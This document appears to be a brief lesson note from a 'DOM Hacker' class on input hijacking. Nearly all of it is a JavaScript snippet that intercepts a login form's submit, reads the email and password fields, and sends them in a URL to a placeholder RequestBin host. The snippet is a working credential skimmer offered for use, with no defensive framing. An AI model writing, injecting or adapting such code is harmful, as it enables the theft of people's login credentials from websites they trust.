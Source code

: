 # DOM Hacker Class 02 - Input Hijacking & Live Data Capture

## Lessoons learnt
- How to grab user input in real-time using DOM
- How to listen for `onclick` or `onsubmit` events
- Sending data to your own server (RequestBin)

---

## ✅ Real-Time Input Capture Script
```js
document.getElementById("loginBtn").onclick = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);
};
